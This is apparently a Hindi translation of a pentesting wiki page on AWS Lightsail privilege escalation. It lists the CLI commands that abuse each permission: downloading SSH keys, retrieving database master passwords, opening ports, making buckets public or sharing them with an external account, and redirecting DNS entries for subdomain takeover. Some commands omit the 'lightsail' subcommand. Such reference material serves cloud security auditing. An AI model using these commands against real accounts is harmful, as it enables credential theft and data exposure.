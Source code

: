 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> यह ध्यान रखना महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के IAM भूमिकाओं का उपयोग नहीं करता** बल्कि एक AWS प्रबंधित खाते का, इसलिए आप इस सेवा का दुरुपयोग प्रिवेस्क के लिए नहीं कर सकते। हालाँकि, **संवेदनशील डेटा** जैसे कोड, API कुंजी और डेटाबेस जानकारी इस सेवा में मिल सकती है।

### `lightsail:DownloadDefaultKeyPair`

यह अनुमति आपको उदाहरणों तक पहुँचने के लिए SSH कुंजी प्राप्त करने की अनुमति देगी:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको इंस्टेंस तक पहुँचने के लिए SSH कुंजी उत्पन्न करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुँचने के लिए एक कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बकेट के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए क्रेडेंशियल प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए पासवर्ड बदलने की अनुमति देगी:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
यदि डेटाबेस सार्वजनिक नहीं है, तो आप इन अनुमतियों के साथ इसे सार्वजनिक भी बना सकते हैं।
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है। ध्यान दें कि कॉल किसी भी पोर्ट को बंद कर देगी जो इसमें निर्दिष्ट नहीं है।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति एक इंस्टेंस को बिना किसी अतिरिक्त क्रेडेंशियल के एक बकेट तक पहुँच देने की अनुमति देती है।
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर अपने AWS खाते को बकेट्स पर पढ़ने की पहुंच दे सकता है या यहां तक कि बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateContainerService`

इन अनुमतियों के साथ, एक हमलावर कंटेनर सेवा से निजी ECRs तक पहुंच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**संभावित प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन का अधिग्रहण

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन का अधिग्रहण
